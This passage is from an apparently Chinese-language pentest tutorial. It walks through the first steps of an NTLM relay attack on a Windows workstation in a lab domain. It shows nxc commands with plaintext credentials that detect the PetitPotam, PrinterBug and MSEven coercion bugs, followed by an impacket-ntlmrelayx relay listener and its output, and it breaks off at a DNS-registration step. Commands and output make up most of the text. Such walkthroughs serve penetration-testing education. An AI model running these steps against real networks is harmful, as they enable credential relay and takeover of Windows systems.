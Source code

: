 ## 攻击步骤  
  
**1. 侦察与强制检查**  
  
验证 SMB 签名状态和强制漏洞：  
```
┌──(root㉿rbtsecurity)-[~]
└─$ nxc smb 192.168.115.185 -u scarter -p Passw0rd -M coerce_plus
SMB         192.168.115.185 445    WKSTN-3          [*] Windows 10 / Server 2019 Build 19041 x64 (name:WKSTN-3) (domain:shield.local) (signing:False) (SMBv1:False)
SMB         192.168.115.185 445    WKSTN-3          [+] shield.local\scarter:Passw0rd
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PetitPotam
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PrinterBug
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PrinterBug
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, MSEven
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeRFeHRTCbK31qVlicjfbXibV8rpDDPxztcEYr7z3c3jm09F79ibpOia2dibw/640?wx_fmt=png&from=appmsg "")  
  
**2. 启动 SMB 中继监听器**  
  
我们准备使用 ntlmrelayx  
 来拦截 NTLM 身份验证并将其中继回目标：  
```
┌──(root㉿rbtsecurity)-[~]
└─$ impacket-ntlmrelayx -t wkstn-3.shield.local -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictje0k75GEQgOJZFvVQJGft5iaBmtX2Oh3RGq1icCHziaxPfxoJzqEM5TZ6Qg/640?wx_fmt=png&from=appmsg "")  
  
  
**3. 注册 DNS 记录**  
  